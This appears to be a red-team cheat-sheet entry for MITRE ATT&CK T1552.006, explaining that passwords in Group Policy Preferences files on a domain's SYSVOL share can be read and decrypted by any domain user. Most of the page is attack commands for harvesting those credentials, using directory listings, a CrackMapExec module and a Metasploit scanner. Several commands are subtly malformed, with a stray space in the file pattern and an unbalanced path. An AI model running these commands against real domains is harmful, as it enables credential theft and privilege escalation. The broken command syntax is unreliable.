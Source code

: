 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1552.006
---
```


# Group Policy Preferences

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

```powershell
# Enumerating credentials directory on the SYSVOL share
dir /s * .xml

# Enumerating credentials remotely from SYSVOL
dir /s \\[FQN]\SYSVOL\[FQDN\ | more

# Enumerating credentials remotely using CrackMapExec
crackmapexec smb $ip -u $username -p $password -M gpp_password

# Enumerating credentials remotely using Metasploit
use auxiliary/scanner/smb/smb_enum_gpp
set rhosts $ip
set SMBUser $username
set SMBPass $password
run
```
